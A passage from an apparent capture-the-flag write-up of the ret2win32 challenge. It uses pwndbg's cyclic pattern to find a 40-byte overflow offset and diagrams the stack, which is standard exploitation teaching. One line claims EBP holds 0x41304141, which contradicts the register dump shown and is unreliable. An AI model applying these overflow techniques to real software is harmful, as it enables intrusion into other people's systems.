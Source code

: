 * So the address of `ret2win` is `0x0804862c` in the 32-bit executable. One thing to note is that the arguments for a 32-bit function call are pushed on the stack whereas the arguments for a 64-bit function call are stored in registers.
* You can check out live overflow's video if you to know more differences in 64-bit and 32-bit assembly.

### Cyclic pattern

* Let's create a cyclic pattern.

```
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

* Let's provide this pattern as the input.

```
───────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────
*EAX  0xb
*EBX  0xf7fad000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x229dac
*ECX  0xf7fae9b4 (_IO_stdfile_1_lock) ◂— 0x0
*EDX  0x1
*EDI  0xf7ffcb80 (_rtld_global_ro) ◂— 0x0
*ESI  0xffffd0f4 —▸ 0xffffd221 ◂— '/home/kunal/ropEmporium/ret2win32/ret2win32'
*EBP  0x6161616b ('kaaa')
*ESP  0xffffd020 ◂— 0x6161616d ('maaa')
*EIP  0x6161616c ('laaa')
```

* We can see that the `ebp` has the value `0x41304141` which is the little endian `AA0A` in ASCII.
* Let's find the offset of this value in our cyclic pattern.

```
pwndbg> cyclic -l 0x6161616b
Finding cyclic pattern of 4 bytes: b'kaaa' (hex: 0x6b616161)
Found at offset 40
```

* So the offset is 40 bytes.
* Let's see how this looks on the stack.

```
<======: Value is stored at that location
<------: Points to the address

+---------------+ 
|  61 61 61 61  | <====== buffer (32 bytes) <------ esp
|  62 61 61 61  | 
|  63 61 61 61  |
|  64 61 61 61  |
|  65 61 61 61  |
|  66 61 61 61  |
|  67 61 61 61  |
|  68 61 61 61  |
|  69 61 61 61  |
|  6A 61 61 61  |
+---------------+
|  6B 61 61 61  | <====== stored ebp <------ ebp
+---------------+
|  6C 61 61 61  | <====== return address
+---------------+
```
